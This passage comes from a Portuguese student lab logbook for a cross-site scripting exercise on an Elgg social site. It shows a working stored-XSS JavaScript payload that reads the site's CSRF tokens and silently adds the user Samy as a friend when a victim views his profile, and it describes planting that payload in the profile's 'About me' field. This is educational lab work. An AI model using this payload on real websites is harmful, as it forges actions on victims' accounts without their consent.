 
2. Inspeção do Pedido HTTP
- Identificámos os parâmetros necessários do pedido GET utilizado para adicionar um amigo.

![Figura 13](/Images/LOGBOOK7/Task4_image2.png)

3. Criação do Código Malicioso
- Com base nos parâmetros capturados, escrevemos o seguinte código JavaScript, que simula um pedido legítimo para adicionar Samy como amigo, sem intervenção da vítima:

```javascript
<script type="text/javascript">
window.onload = function () {
        var Ajax = null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
}
</script>
```

O código foi inserido no campo "About me" do perfil do utilizador Samy, garantindo que seria executado sempre que outro utilizador visualizasse o perfil.

![Figura 15](/Images/LOGBOOK7/Task4_image3.png)
